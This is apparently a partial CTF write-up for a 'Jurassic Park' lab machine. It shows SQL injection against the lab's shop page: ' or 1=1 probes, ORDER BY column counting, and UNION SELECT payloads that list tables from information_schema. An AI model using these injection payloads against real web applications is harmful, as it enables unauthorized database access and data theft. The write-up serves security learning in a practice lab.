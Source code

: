 <h1>Jurrasic Park</h1>
<h3>219-day-streak</h3>

<br>

![image](https://github.com/user-attachments/assets/b717ffa4-cb1c-4daa-8ad7-b1223facc961)

<br>

![image](https://github.com/user-attachments/assets/59e91b57-b389-42a5-be27-c74ce6b0cdf4)

<br>

<h2>Task 1. Jurassic Park CTF</h2>

![image](https://github.com/user-attachments/assets/1a9cd97d-0cc1-4b51-95a1-9504c9a86493)

<br>

<p>This medium-hard task will require you to enumerate the web application, get credentials to the server and find four flags hidden around the file system. Oh, Dennis Nedry has helped us to secure the app too.<br>

You'll also want to turn up your device's volume (firefox is recommended). So, deploy the VM and get hacking.<br>

Please connect to our network before deploying the machine.</p>

<br>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 1.1. <em>What is the name of the SQL database serving the shop information?</em><br><a id='1.1'></a>
>> <code><strong>No answer needed</strong></code>

<br>

> 1.2. <em>How many columns does the table have?</em><br><a id='1.2'></a>
>> <code><strong>____</strong></code>


<br>

![image](https://github.com/user-attachments/assets/cb6a330a-2a15-4fea-843b-d97535e0037e)

<br>

![image](https://github.com/user-attachments/assets/a8d4c1a8-7956-4507-8048-12cf4b9b47a9)


<br>

![image](https://github.com/user-attachments/assets/81ccef22-78fa-42f1-b504-e3e99f79a0aa)

<br>

![image](https://github.com/user-attachments/assets/1764a424-d928-4aad-9384-6dd91769012e)


<br>

<p>We have here an</p>

![image](https://github.com/user-attachments/assets/e334d7ce-26a2-4eca-9141-f1ea031600e7)

<br>

![image](https://github.com/user-attachments/assets/246732de-e61c-4e51-aabd-65f365846c04)

<br>

![image](https://github.com/user-attachments/assets/b8a10fb8-91be-4198-8a89-b0d294cec868)

<br>

<p>Dennis is mentinoned in <code>?id=5</code>.  Maybe it is a username?!</p>

![image](https://github.com/user-attachments/assets/8c346ec3-ce19-484a-9635-ee398e48dc4f)

<br>

<p>Let´s try <code>’ or 1=1</code>.</p>

<br>

![image](https://github.com/user-attachments/assets/0817fa73-100f-477a-a75b-39894433fb0f)

<br>

<p>Scrolling down ... </p>

<br>


![image](https://github.com/user-attachments/assets/a5cd1bf1-d168-46ca-afdb-6a515b64988f)

<br>

<p>So it is about <code>SQL Injection</code>!</p>

<br>

![image](https://github.com/user-attachments/assets/68828109-5c37-4ac9-86ea-12affc334438)


<br>

<p><code>' or 1=1 order by 1,2</code> did not work.<br>
<code>' or 1=1 order by 1,2,3</code> did not work.<br>
<code>' or 1=1 order by 1,2,3,4</code> did not work.<br>
<code>' or 1=1 order by 1,2,3,4,5</code> did not work.<br><br>
But guess what?  .... with <code>' or 1=1 ORDER BY 1,2,3,4,5,6</code> the output wass ...</p>

<br>


![image](https://github.com/user-attachments/assets/62412608-4a88-4c2e-8efd-37ef9247a743)

<br>

<p>So we can conclude that thre are <code>5</code> columns!  Leté try <code>UNION</code></p>

<br>

![image](https://github.com/user-attachments/assets/097118f6-9e37-45be-bca5-f53034b80bd6)

<br>


<p>Buy, Buy, Buy</p>

<br>

![image](https://github.com/user-attachments/assets/d3bfe821-a1a6-49f8-a417-88908768be4b)


<br>

![image](https://github.com/user-attachments/assets/a9df154f-133b-4596-b60d-222bd010ad61)

<br>

<pre><code>?id=5%20union%20select%201,group_concat(table_name),3,4,5%20from%20information_schema.tables</code></pre>

<br>

![image](https://github.com/user-attachments/assets/a8f44e9b-199a-4fd7-a26b-80c9d14451bf)

<br>

<pre><code>?id=5 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema = database()</code></pre>

<br>

![image](https://github.com/user-attachments/assets/3d5d88a9-c949-4c3c-806d-5c51db1e747d)






































